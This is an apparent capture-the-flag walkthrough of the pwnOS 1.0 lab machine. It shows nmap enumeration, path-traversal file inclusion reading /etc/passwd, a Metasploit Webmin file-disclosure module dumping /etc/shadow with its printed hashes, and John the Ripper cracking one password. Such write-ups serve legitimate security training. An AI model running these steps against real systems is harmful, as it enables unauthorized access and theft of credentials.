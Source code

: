 # PWNOS: 1.0

## 1.Get VM IP
```bash
root@kali: nmap -sn 192.168.127.0/24

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-10 02:20 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00021s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.138
Host is up (0.00041s latency).
MAC Address: 00:0C:29:5E:18:C9 (VMware)
Nmap scan report for 192.168.127.254
Host is up (0.00033s latency).
MAC Address: 00:50:56:F4:78:0D (VMware)
Nmap scan report for 192.168.127.128
Host is up.
```

The IP address is `192.168.127.138`, let's enumerate the machine.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.138 -oN fullscan

Nmap scan report for 192.168.127.138
Host is up (0.0019s latency).
Not shown: 995 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 e4:46:40:bf:e6:29:ac:c6:00:e2:b2:a3:e1:50:90:3c (DSA)
|_  2048 10:cc:35:45:8e:f2:7a:a1:cc:db:a0:e8:bf:c7:73:3d (RSA)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open  ��c��U      Samba smbd 3.0.26a (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
MAC Address: 00:0C:29:5E:18:C9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: ubuntuvm
|   NetBIOS computer name: 
|   Domain name: nsdlab
|   FQDN: ubuntuvm.NSDLAB
|_  System time: 2023-09-09T05:33:29-05:00
|_nbstat: NetBIOS name: UBUNTUVM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 2h30m03s, deviation: 3h32m08s, median: 2s
|_smb2-time: Protocol negotiation failed (SMB2)
```

smb enumeration led to nothing intresting.

but exploring the web showed a web application :

![mainpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/4b436200-9be0-449e-aa5d-135320f2a4d0)

despite having XSS here, it does not help for exploiting but manipulating the `connect` parameter will show an error :

![erropage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2873eb2c-ebf4-43cd-9ded-055b81013eb5)

the error shows some kind of inclusion in the page that is intresting for testing LFI, changing the connect parameter to show

the `/etc/passwd` is successful when using the path traversal payload :

![etcpasswd](https://github.com/Git-K3rnel/VulnHub/assets/127470407/3b41a83d-191d-4ebd-be02-bbce458eeda8)

after showing the `/etc/passwd` we detect 4 users in the system :

- vmware
- obama
- osama
- yomama

this is greate, we now know the users on the system by this vulnerability.

now its time to check the other open port (10000)

### 2.1.Webmin

Let's check if webmin has any exploit availabel :

```bash
root@kali: searchsploit webmin

Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure | multiple/remote/1997.php
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure | multiple/remote/2017.pl
```
i also checked metasploit for webmin and it has an auxilary for webmin -> `auxiliary/admin/webmin/file_disclosure`

i used this auxilary and it worked, just change the `RPATH` to `/etc/shadow`:

```bash
msf6 auxiliary(admin/webmin/file_disclosure) > options

Module options (auxiliary/admin/webmin/file_disclosure):

   Name     Current Setting   Required  Description
   ----     ---------------   --------  -----------
   DIR      /unauthenticated  yes       Webmin directory path
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.127.138   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasplo
                                        it.html
   RPATH    /etc/passwd       yes       The file to download
   RPORT    10000             yes       The target port (TCP)
   SSL      false             no        Negotiate SSL/TLS for outgoing connections
   VHOST                      no        HTTP server virtual host


Auxiliary action:

   Name      Description
   ----      -----------
   Download  Download arbitrary file



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/webmin/file_disclosure) > set rpath /etc/shadow
rpath => /etc/shadow
msf6 auxiliary(admin/webmin/file_disclosure) > run
[*] Running module against 192.168.127.138

[*] Attempting to retrieve /etc/shadow...
[*] The server returned: 200 Document follows
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
```

now we have user hashes and can crack them.

## 3.Gaining Shell

I tried the first account, vmware, to crack its hash using john

just save the `vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::` to vmware.hash file and give it to john :

```bash
root@kali: john vmware.hash --wordlist=/usr/share/wordlists/rockyou.txt

Created directory: /root/.john
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
h4ckm3           (vmware)     
1g 0:00:00:47 DONE (2023-09-10 03:06) 0.02116g/s 160830p/s 160830c/s 160830C/s h4ndoff8..h4884625
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```













